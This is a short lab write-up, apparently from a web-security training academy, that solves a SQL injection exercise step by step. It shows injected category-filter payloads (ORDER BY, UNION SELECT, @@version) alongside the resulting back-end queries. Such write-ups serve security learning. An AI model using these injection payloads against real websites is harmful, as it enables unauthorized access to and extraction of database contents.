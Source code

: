 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

- sqli: product category fillter
- end goal: display the database version string

### Analysis
- url: `https://0aa7000303145d35806b800c00550044.web-security-academy.net/`

- front-end: `filter?category=Lifestyle`
- back-end: 
```sql
select * from product where category = 'Lifestyle' and released = 1
```

- determine how many columns are there 
- front-end: `filter?category=Lifestyle' order by 2#`
- back-end: 
```sql
select * from product where category = 'Lifestyle'' order by 2# and released = 1
'-- 200 OK: contain 2 columns 
```

- determine data type of columns  
- front-end: `filter?category=Lifestyle' union select 'a', 'a'#`
- back-end: 
```sql
select * from product where category = 'Lifestyle'' union select 'a', 'a'# and released = 1
'-- 200 OK: both columns are text 
```

- display database version
- front-end: `filter?category=Lifestyle' union select @@version, null#`
- back-end: 
```sql
select * from product where category = 'Lifestyle'' union select @@version, null# and released = 1
'-- microsoft: 200 OK 
```
- Congratulations, you solved the lab!

---